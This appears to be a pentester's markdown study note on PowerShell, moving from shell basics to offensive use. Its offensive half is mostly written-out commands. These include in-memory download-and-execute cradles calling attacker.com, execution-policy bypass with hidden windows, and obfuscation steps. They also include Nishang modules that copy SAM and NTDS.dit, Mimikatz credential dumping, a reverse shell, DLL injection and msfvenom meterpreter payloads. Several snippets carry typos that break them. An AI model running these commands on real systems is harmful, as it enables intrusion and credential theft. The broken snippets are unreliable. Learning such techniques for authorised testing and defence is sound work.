

# PowerShell for Pentesters

## What is Powershell?

* Powershell is a powerful built-in CLI or "shell" also task-orientes scripting language
* Mostly used by admins
* Built on top of .NET
* Scripts end with ".ps1"
* Version 5.0 onward introduce some hurdles regarding logging and restrictive modes
* Powershell 6.0 is available MacOS and Linux also as Docker image

## Fundamentals

`C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe` where exe files of powershell stays. for 64-bit it stays under system32 directory. C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe for 32-bit it stays in C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe

```shell
#You can learn like that
PS C:\Windows\system32\WindowsPowerShell\v1.0> [Environment]::Is64BitProcess
True
```

You can learn detail with command below

```shell
C:\> powershell /?
```

Execution Policy

```shell
powershell.exe -ExecutionPolicy Bypass ./shell.ps1
powershell.exe -ExecutionPolicy Unrestricted ./shell.ps1
powershell.exe -Command Get-Process
powershell.exe -Command "& {Get-Eventlog -Logname security}"
```

EncodedCommand: Used to executed base64 command

```shell
powershell.exe -EncodedCommand $encodedCommand
```

* Like Man pages you can reach Get-Help section of all commands
  * `Get-Help Get-Help`
  * `Get-Help Get-Process -Full` Gives full result regarding that command
  * `Get-Help Get-Process -Examples` you can learn examples of that commands You can updata man pages with Update-Help command
* You can learn commands by tunning the command so you don't need to memorize alll. `Get-Commands -Name *Log*`

### Cmdlets

* You can change formats of command results
  * For ex. `Get-Childitem | Format-List *`
* After learning all these commands you can pipe them to get objects
  * For ex. `Get-Childitem | Sort-Object -Unique | Select-Object Basename`
* Redirection works as same like in other OS {<,>}
*   You can use different format also

    * `Get-Process notepad | Format-List Path`
    * or even
    * `Get-Process notepad | Format-List Path,Id,ProcessName`


* `Get-WmiObject -class win32_operatingsystem | Select -Property *`
* We can use `fl` as alias to `Format-List`
* If you want to you create csv file you can use Export-Csv
  * `Get-WmiObject -Class win32_service | Select-Object Name, ProcessID | export-csv C:\Users\public\Documents\try.csv`
* In order to see Registry hives
* `cd HKLM:\`
* Select-String is important command
  * `Select-String -Path C:\Users\public\Documents\*.txt -Pattern yoursearch*`
* Get-Content
  * cat = Get-Content
* To learn servises which are running and available
  * `Get-Service`
  * `Get-Service | Select-Object Name`
  * `Get-Service "n*" | Sort-Object status -Descending`

### Modules

* Modules can contain powershell scripts and code files. And they are in directories.
* Modules are importet powershell session.
* To obtain list currently imported modules `Get-Module`
* `Get-Module -ListAvailable` we can learn all modules that we can import.
* In order to import module `Import-Module .\new_module.psm1`
* `$Env:PSModulePath` should include the module that we need to import
* You need to create a directory inside one of these paths and upload all files in that directory.
* After uploading these files in that directory run basically
  * `Import-Module ModuleName` and confirm it `Get-Module`
  * Then you can learn module commands by running `Get-Command -Module AADInternals`
  * To Learn one command `Get-Help Add-AADIntEASDevice`

### Scripts

#### Intro for Scripts

* PowerShell Scripts end with .\ps1
* 1 refer not to a version but PowerShell engine itself
* In order to run script just `.\script.ps1`

```shell
Param([parameter (mandatory=$true)][string]$file)
Get-Content "$file"
```

That script takes an argument and later write content of it. or you can put a variable inside that parameter like `$file= try.txt` `Get-Content $file`

#### Loop Statements

* for()
* foreach()
* while()
* do {something}while()
* do {something}until)()
* Learn details with

```shell
    Get-Help about_Foreach
    Get-Help about_For
    Get-Help about_Do
    Get-Help about_While
```

* Examples
  * Foreach()

```shell
        $services = Get-Service
        foreach ($i in $services){ $i.Name }
```

```
  or also 

  `Get-Service | ForEach-Object {$_.Name}` here $_ is giving you ability to iterate it. 
```

*   Where-Object

    * it gives you ability to find values
      * `Get-ChildItem C:\Users\ | Where-Object {$_.Name -match "public"}`

    ```shell
    $ports = {444,81}
    $ip = "127.0.0.1"
    foreach ($port in $ports) {try{$socket=New-Object System.Net.Sockets.TcpClient($ip,$port);} catch{}; if($socket -eq $null) {echo $ip":"$port" - Closed ";} else{echo $ip":"$port - "Open"; $socket - $null;}}
    ```

### Objects

* We can learn objects `Get-Process | Get-Member -MemberType Method` `Get-Process -Name "chrome" | Kill`
* Also with `New-Object` creating .Net Framework object or COM object is possible
* Creating new object based on .NET class
  * ```shell
    $webclient = New-Object System.Net.WebClient
    $url = "https://domain.example.com/malicious.exe"
    $file = "C:\ProgramData\malicious.exe"
    $webclient.DownloadFile($url,$file)
    ```
    * Here webclient is a class from .NET class and that class Download file method works with two variable.

## Offensive PowerShell

### Downloading and Executing

* There are two ways of downloading and executing files in PowerShell, .Net classes and Com objects
  * one which is downloaded to disk
  * second is run in within PowerShell process memory without touching the disk

| Powershell                                                        | Com                                    |
| ----------------------------------------------------------------- | -------------------------------------- |
| Net.WebClient DownloadString Method                               | Word.AppIication COM Object            |
| Net.WebClient DownloadData Method                                 | nternetExplorer.Application COM Object |
| Net.WebCIient OpenRead method                                     | MsXmI2.Servee                          |
| .NET \[Net.HttpWebRequest] class - Certutil.exe w/ -ping argument |                                        |
|                                                                   | Excel.Application COM Object           |

Disk-Based Execution Net.Webclient DownloadFile method BITSAdmin.exe Certutil.exe w/ -urlcache argument

#### Some Methods

**Net.WebClient DownloadString Method**

```powershell
iex (New-Object Net.WebClient).DownloadString("https://example.com/try.ps1")
```

Same command from shell

```powershell
powershell.exe iex (New-Object Net.WebClient).DownloadString(`https://example.com/try.ps1`)
```

or you can part it

```powershell
$dl = New-Objet System.Net.Webclient
$pl = "http://example.com/here.ps1"
$cmd= $dl.DownloadString($pl)
Invoke-Expression $cmd
```

Here we downloading and running it inside powershell memory so not putting it any disk. Even file extension will be different from ps1 like gif for ex, powershell will run it ps1 file.

It is possible to create headers in Net.WebClient

```powershell
$dl = New-Objet System.Net.Webclient
$dl.Headers.Add("user agent", "Mozilla/5.0")
$pl = "http://example.com/here.ps1"
$cmd= $dl.DownloadString($pl)
Invoke-Expression $cmd
```

**Net.WebClient DownloadFile Method**

This method will download your executable to disk. If you are trying to be stealthy not recommended.

```powershell
$dl = New-Objet System.Net.Webclient
$pl = "http://example.com/exploit.exe"
$local_file = "C:\users\public\exploit.exe"
$cmd= $dl.DownloadFile($pl,$local_file)
Invoke-Expression $cmd
```

**Net.WebRequest**

For downloading and executing in memory we can use it.

```powershell
$get = [System.Net.NebRequest]::Create("http://example/try.psl")
$res = $get.GetResponse()
iex ([System.IO.StreamReader] ($res.GetResponseStreamU)) .ReadToEnd()
```

**System.Xml.XmlDocument**

you can run commands by serving xml in attacker computer.

```xml
<?xml version="1.0"?>
    <command>
        <here>
            <execute>Get-Process</execute>
        </here>
    </command>
```

```
Sxmldoc = New-Object System.Xml.XmlDocument
$xmldoc.Load("http://attacker.com/command.xml")
iex $xmldoc.command.here.execute
```

**Com O?bject Download scripts**

```powershell
$downloader = New-Object -ComObject Msxml2.XMLHTTP
$downloader.open(“GET”, “http://attacker.com/script.psl”, Sfalse)
$downloader.send()
iex $downloader.responseText
```

```powershell
Sdownloader = New-Object -ComObject WinHttp.WinHttpRequest.5.1
$downloader.open(“GET”, “http://attacker.com/script.psl”, Sfalse)
$downloader.send()
iex $downloader.responseText
```

We can use as one liner these codes with semicolon ;

```powershell

$der = New-Object -ComObject Msxml2.XMLHTTP; $der.open(“GET”, “http://attacker.com/script.psl”, Sfalse); $der.send(); iex $der.responseText

```

**ExecutionPolicy Bypass and Hidden Window**

This will hide our scripts from enduser.

```powershell

powershell.exe -ExecutionPolicy bypass -window hiden .\run.ps1

```

[Here is a download cradle link](https://github.com/danielbohannon/Invoke-CradleCrafter)

### Obfuscation

[Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)&#x20;

You can directly download the master from [here](https://github.com/danielbohannon/Invoke-Obfuscation/archive/master.zip).

After putting that file into modules directory, find module path with that command `$env:PSModulePath` Then run that command `Import-Module Invoke-Obfuscation`. If you get some error please be sure all files are extracted. Real time protection in windows can be blocked all files to be extracted.

.png>)


Here there are some commands that you can use.&#x20;

First `SET SCRIPTBLOCK`

```
SET SCRIPTBLOCK iex (New-Object Net.Webclient).downloadstring("https://127.0.0.1/try.ps1")
```

After saying the invoke-obfuscate the things that we want to obusficate we need to select `STRING` method, 3 will make it reverse.&#x20;

```
STRING/3
```




Here we can take the result section and run that in powershell. It will execute it.&#x20;

.png>) (since I didn't serve any file it gave an error.)

There is also other sections in the tool.&#x20;

By using encoding section `ENCODING/7`

.png>)


We are taking really long obfuscated command. We should take the result and run in the machine it self. In CMD you should use `powershell -Command "<RESULT>"`

There is also `LAUNCHER` module too.&#x20;

.png>)

Here you can use based on which launcher you can choose yours.&#x20;


### Information Gathering and Recon

PowerSploit is one of tools that we can use on that purpose.&#x20;

After downloading it inside module directory, you can run portscan command.

```
Invoke-Portscan -Hosts "127.0.0.1" -PingOnly
```

```
Invoke-Portscan -Hosts 127.0.0.1 -Ports "53-81"
```

`Get-HttpStatus` we can learn about sub directories of webserver

```
Get-HttpStatus -Target 127.0.0.1 -Path C:\users\public\dic.txt -Port 80 | ? {$_.Status -match "ok"}
```

### Post-Exploitation with PowerShell

**Nishang**



We should upload that module to our attacker system.&#x20;

There are some modules in that tool.&#x20;

_**Gather**_

_That Module will attempt to copy SAM database using VSS service, NTDS.dit and system registry files will be tried to copied by tool._&#x20;

```powershell
iex (New-Object Net.Webclient).DownloadString('https://attacker.com/Copy-VSS.ps1'); Copy-VSS
```

Also inside Gather module there is lots of command that you cant use.&#x20;

Or you can directly try to download from github repository.&#x20;

```powershell
iex (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-Information.ps1"); Get-Information
```

```powershell
iex (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHints.ps1"); Get-PassHints
```

or you can run Mimikatz on that machine

```
iex (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -DumpCreds
```

In windows machines sometimes it can be problem to create reverse shells, but in that tool it is possible to create by Invoke-PowershellTcp

```powershell
iex (New-Object Net.Webclient).DownloadString("https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1"); Invoke-PowerShellTcp -Reverse -IPAddress 127.0.0.1 -Port 4444
```

**PowerSploit**

**PrivEsc**

After downloading the powersploit into machine you can go to PrivEsc directory and&#x20;

```powershell
Import-Module ./Privesc.psm1
Get-Command -Module Privesc #learn all commands regarding privesc
Invoke-AllChecks

# Dll injection example before that create dll with msfvenom
iex (New-Object Net.WebClient).DownloadString("https://atacker.com/Invoke-DLLInjection.ps1"); Invoke-DLLInjection -ProcessID 5430 C:\program\cmd.dll
```

**Empire**

Empire is a post-exploitation framework.&#x20;




Some Commands that you will use during powershell-Metasploit Usage

```powershell
# Metasploit multi/handler
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_https
set LHOST IP.IP.IP.IP
set LPORT ...
exploit -j 

# Creating payload with msfvenom for powershell
msfvenom -p windows/x64/meterpreter_reverse_https lport=... lhost=IP.IP.IP.IP -f psh-reflection > payload.ps1

# On victim run and execute
powershell.exe iex (New-Object Net.Webclient).DownloadString("https://IP.IP.IP.IP/payload.ps1")

########### After taking shell with meterpreter

load powershell 
powershell_shell #powershell will be executed and later you can download mimikatz. 
```
